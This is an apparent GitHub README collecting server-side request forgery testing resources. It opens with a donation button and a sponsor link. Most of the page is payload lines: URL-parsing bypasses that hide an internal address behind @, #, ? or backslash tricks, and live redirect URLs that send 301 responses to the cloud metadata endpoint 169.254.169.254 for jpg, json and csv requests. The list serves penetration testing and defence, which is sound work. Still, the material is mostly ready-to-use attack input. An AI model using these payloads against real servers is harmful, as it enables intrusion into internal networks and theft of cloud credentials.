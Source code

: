 <a href="https://www.buymeacoffee.com/cujanovic" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/v2/default-yellow.png" alt="Buy Me A Coffee" style="height: 60px !important;width: 217px !important;" ></a>


[I'm grateful for the support received by Tuta](https://tuta.com/)


# SSRF (Server Side Request Forgery) testing resources

***

### Quick URL based bypasses:
`http://google.com:80+&@127.88.23.245:22/#+@google.com:80/`

`http://127.88.23.245:22/+&@google.com:80#+@google.com:80/`

`http://google.com:80+&@google.com:80#+@127.88.23.245:22/`

`http://127.88.23.245:22/?@google.com:80/`

`http://127.88.23.245:22/#@www.google.com:80/`

`http://google.com:80\\@127.88.23.245:22/`

***

### htaccess - redirect test for various cases
Status codes: 300, 301, 302, 303, 305, 307, 308

Filetypes: jpg, json, csv, xml, pdf
#### Live demo:
jpg 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/img-without-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-without-body-md/301-http-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body/301-http-169.254.169.254:80-.i.jpg`

`https://ssrf.localdomain.pw/img-with-body-md/301-http-.i.jpg`


json 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/json-without-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-without-body-md/301-http-.j.json`

`https://ssrf.localdomain.pw/json-with-body/301-http-169.254.169.254:80-.j.json`

`https://ssrf.localdomain.pw/json-with-body-md/301-http-.j.json`


csv 301 response without and with a valid response body:

`https://ssrf.localdomain.pw/csv-without-body/301-http-169.254.169.254:80-.c.csv`

`https://ssrf.localdomain.pw/csv-without-body-md/301-http-.c.csv`

`https://ssrf.localdomain.pw/csv-with-body/301-http-169.254.169.254:80-.c.csv`
